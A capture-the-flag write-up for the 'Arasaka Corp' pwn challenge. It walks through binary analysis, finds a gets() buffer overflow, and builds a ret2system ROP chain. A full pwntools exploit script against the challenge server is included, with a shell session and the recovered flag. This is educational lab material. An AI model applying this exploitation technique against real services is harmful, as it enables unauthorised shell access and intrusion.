


# Arasaka Corp

```
The Arasaka Corporation, one of the most influential multinational conglomerate that deals in a lot of stuff, including some very shady stuff.
Get into their mainframe, expose their unethical practices to the international community and bust their business!
```

solves: *8* <br>

files given
- [ArasakaCorp](./ArasakaCorp)

connection info: ` nc nc.lagncra.sh 8000` <br>

The `file` command tells us that this is a ELF executable file, that is not stripped.
```sh
└─$ file ArasakaCorp
ArasakaCorp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ae40a412cc2c06c2d081ac1ba94820ed61259d3e, for GNU/Linux 3.2.0, not stripped
```
checksec shows that NX[^1] is enabled. But we are still able to ROP[^2]
```sh
└─$ checksec ArasakaCorp
[*] '/mnt/d/CTFs/lnc/3.0/pwn/Arasaka Corp/ArasakaCorp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Checking the strings, I see one that stands out. The "/bin/sh" string might be useful.
```
└─$ rabin2 -z ArasakaCorp
ERROR: Library handler has failed for '/home/duck/.local/share/radare2/plugins/core_pdd.so'
ERROR: Library handler has failed for '/home/duck/.local/share/radare2/plugins/core_ghidra.so'
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00402008 46  47   .rodata ascii [!] Anti DoS Signal. Patch me out for testing.
1   0x00002038 0x00402038 631 1856 .rodata utf8  \n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⡶⣶⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡾⠛⠉⢠⣶⣿⣿⣶⣄⠉⠛⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⠋⠀⠀⠀⣿⣿⣿⣿⣿⣿⠀⠀⠀⠙⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \n⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⢣⣴⣶⣶⣦⡹⢿⣿⣿⡿⢏⣴⣶⣶⣦⡜⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡏⣿⣿⣿⣿⣿⣿⠀⣿⡿⠀⣿⣿⣿⣿⣿⣿⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡇⠻⣿⣿⣿⣿⣿⡀⣽⣿⢀⣽⣿⣿⣿⣿⠟⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n  ⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠈⠉⠉⠉⠻⣿⣿⣿⣾⠟⠁⠉⠉⠁⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣷⡀⠀⠀⠀⠀⠈⣿⣿⠁⠀⠀⠀⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣦⣄⠀⠀⠀⣽⣷⠀⠀⠀⣠⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⢷⣶⣾⣷⣶⡶⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\n⠀⠀⣀⣀⡀⠀⠀⣀⣀⣀⣀⣀⣀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⣀⣀⠀⠀⠀⠀⣀⣀⡀⠀⢀⣀⡀⠀⢀⣀⣀⣀⣀⣀⡀⠀⠀\n⣴⣿⠟⠛⢿⣦⡀⣿⡟⠛⠛⠛⣿⣷⣰⣿⠟⠛⢿⣷⡄⢠⣠⣤⡻⠻⠗⠀⣴⣿⠟⠛⢿⣦⣸⣿⣧⣾⡿⢛⣿⡿⠟⠻⣿⣦⠀\n⣿⡇⠀⠀⠀⣿⡇⣿⣷⣄⡀⠀⠉⠁⣿⣇⠀⠀⠀⣿⡇⣀⡉⠻⢿⣶⣄⡰⣿⣇⠀⠀⠀⣿⡿⣿⣿⣅⡀⢸⣿⡀⠀⠀ ⣿⠀\n⠙⠿⣷⣶⣦⣿⡇⠛⠋⠛⢿⣷⣤⡀⠙⠿⣷⣶⡦⣿⡇⢿⣷⣶⣶⣿⣿⣿⠙⠿⣷⣶⡆⣿⡟⠛⠋⠻⢿⣶⣿⣿⣷⣶⣼⣿⡁\n blocks=Basic Latin,Braille Patterns
2   0x00002778 0x00402778 35  36   .rodata ascii Arasaka Corp. Mainframe System v1.0
3   0x000027a0 0x004027a0 66  67   .rodata ascii \nDev mode enabled. If you don't know what you're doing, exit now!\n
4   0x000027e3 0x004027e3 10  11   .rodata ascii Password:
5   0x000027ee 0x004027ee 12  13   .rodata ascii \nAuth is %i\n
6   0x000027fb 0x004027fb 24  25   .rodata ascii \nWelcome, administrator!
7   0x00002814 0x00402814 7   8    .rodata ascii /bin/sh
8   0x0000281c 0x0040281c 23  24   .rodata ascii \nDev: Wrong Credentials
9   0x00002834 0x00402834 10  11   .rodata ascii Username:
10  0x0000283f 0x0040283f 11  12   .rodata ascii \nHello %s!\n
11  0x0000284b 0x0040284b 18  19   .rodata ascii Under maintenance.
```
When looking at the `login()` function, we can see the `gets` function, which is vulnerable to a buffer overflow[^3] \
 <br>
using gdb with pwndbg, I was able to segfault[^4] the program. \
 <br>

looking at where the program segfaulted, we are then able to find the amount of padding we need to overwrite the return address. In this case, we need `16` characters \
 <br>

Now, I have skipped some steps. Specifically, I have not painted the full picture of the binary. Below is the list of functions. I have removed the ones that we will not be focusing on for this writeup.
```sh
└─$ r2 ArasakaCorp
 -- This computer has gone to sleep.
[0x00401150]> aaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Use -AA or aaaa to perform additional experimental analysis
[0x00401150]> afl
[...]
0x004013c8    1    116 sym.login
[...]
0x0040143c    1     55 main
[...]
0x0040131c    4    172 sym.dev
0x004010e0    1     11 sym.imp.system
[...]
[0x00401150]>
```
The execution of the program looks like this `main -> login -> program exit` \
There is another function called `dev` which has another bit of vulnerable code[^5]. However, we will not be using it for our exploit[^6] \
In `x86-64`, when calling a function, register `rdi` is used to hold the first function argument. The rest are stored in other registers and the stack[^7]. \
lets start crafting our exploit. \
<br>
The idea is to get this: `system("/bin/sh");` to gain a shell on the instance the program is on. \
We know we have a string "/bin/sh" at `0x00402814`. We also know that `rdi` is the register responsible for holding the first argument. 
```sh
[0x00401150]> /R pop rdi
  0x004014e3                 5f  pop rdi
  0x004014e4                 c3  ret
[0x00401150]>
```
r2 has a ropgadet finder that I used to find `pop rdi`. What `pop` does is get the next value from the stack, and put it into the 1st argument. With this gadget, we can put the string address into `rdi`. \
now that `rdi = "/bin/sh"`, all we need is to call `system()`. \
final script
```py
from pwn import *

#io = process("./ArasakaCorp");
io = remote("nc.lagncra.sh", 8000)

buf = b'A'*16
pop_rdi = p64(0x004014e3)
bin_sh_str = p64(0x00402814)
system_addr = p64(0x004010e0)

payload = buf + pop_rdi + bin_sh_str + system_addr

io.sendline(payload)
io.sendline("")

io.interactive()
```
You can also find this in [exp.py](./exp.py)
```sh
└─$ python3 exp.py
[+] Opening connection to nc.lagncra.sh on port 8000: Done
/mnt/d/CTFs/lnc/3.0/pwn/Arasaka Corp/exp.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("")
[*] Switching to interactive mode

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⡶⣶⣶⣦⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡾⠛⠉⢠⣶⣿⣿⣶⣄⠉⠛⢿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣿⠋⠀⠀⠀⣿⣿⣿⣿⣿⣿⠀⠀⠀⠙⣿⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⢣⣴⣶⣶⣦⡹⢿⣿⣿⡿⢏⣴⣶⣶⣦⡜⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡏⣿⣿⣿⣿⣿⣿⠀⣿⡿⠀⣿⣿⣿⣿⣿⣿⢸⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⡇⠻⣿⣿⣿⣿⣿⡀⣽⣿⢀⣽⣿⣿⣿⣿⠟⢸⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
  ⠀⠀⠀⠀⠀⠀⠀⠸⣿⡀⠈⠉⠉⠉⠻⣿⣿⣿⣾⠟⠁⠉⠉⠁⠀⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣷⡀⠀⠀⠀⠀⠈⣿⣿⠁⠀⠀⠀⠀⢀⣾⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢿⣦⣄⠀⠀⠀⣽⣷⠀⠀⠀⣠⣴⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⢷⣶⣾⣷⣶⡶⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣀⣀⡀⠀⠀⣀⣀⣀⣀⣀⣀⠀⠀⠀⣀⣀⣀⠀⠀⠀⠀⠀⣀⣀⠀⠀⠀⠀⣀⣀⡀⠀⢀⣀⡀⠀⢀⣀⣀⣀⣀⣀⡀⠀⠀
⣴⣿⠟⠛⢿⣦⡀⣿⡟⠛⠛⠛⣿⣷⣰⣿⠟⠛⢿⣷⡄⢠⣠⣤⡻⠻⠗⠀⣴⣿⠟⠛⢿⣦⣸⣿⣧⣾⡿⢛⣿⡿⠟⠻⣿⣦⠀
⣿⡇⠀⠀⠀⣿⡇⣿⣷⣄⡀⠀⠉⠁⣿⣇⠀⠀⠀⣿⡇⣀⡉⠻⢿⣶⣄⡰⣿⣇⠀⠀⠀⣿⡿⣿⣿⣅⡀⢸⣿⡀⠀⠀ ⣿⠀
⠙⠿⣷⣶⣦⣿⡇⠛⠋⠛⢿⣷⣤⡀⠙⠿⣷⣶⡦⣿⡇⢿⣷⣶⣶⣿⣿⣿⠙⠿⣷⣶⡆⣿⡟⠛⠋⠻⢿⣶⣿⣿⣷⣶⣼⣿⡁

Arasaka Corp. Mainframe System v1.0
Username:
Password:

Hello AAAAAAAAAAAAAAAA\xe3@!
Under maintenance.
$ ls
ArasakaCorp
flag
ynetd
$ cat flag
LNC2023{aR@sA$@_c0rP_D0wNF@LL_2@89}$
$
[*] Interrupted
[*] Closed connection to nc.lagncra.sh port 8000
```
We got it! <br>
FLAG: `LNC2023{aR@sA$@_c0rP_D0wNF@LL_2@89}`


[^1]: NX stands for No eXecute, which means we are not able to put code on the stack, and run it. https://en.wikipedia.org/wiki/NX_bit

[^2]: ROP, or Return Oriented Programming is using parts of code in the program(called gadgets) that allows the attacker to do things. https://ctf101.org/binary-exploitation/return-oriented-programming/

[^3]: `gets` reads until a EOF or newline is received. This can lead to buffer overflows when the amount of values that `gets` is reading is more then the buffer allocated. This can lead to it writing into other variables, and addresses.

[^4]: segfaults can happen in multiple ways, like when the `instruction pointer` of the program is pointing into NX space, or when trying to write into invalid/disallowed memory. https://en.wikipedia.org/wiki/Segmentation_fault

[^5]: It is vulnerable to a format string attack: https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/

[^6]: In all honesty, I actually tried to do it but failed pretty badly. However I found a simpler way to solve the challenge, which demostrates the idea of ROP pretty well

[^7]: Registers include `%rdi`, `%rsi`, `%rdx`, `%rcx`, `%r8`, and `%r9`. https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions (look for `x86-64` arch on Linux). The world of calling conventions is massive and wild :sweat_smile:

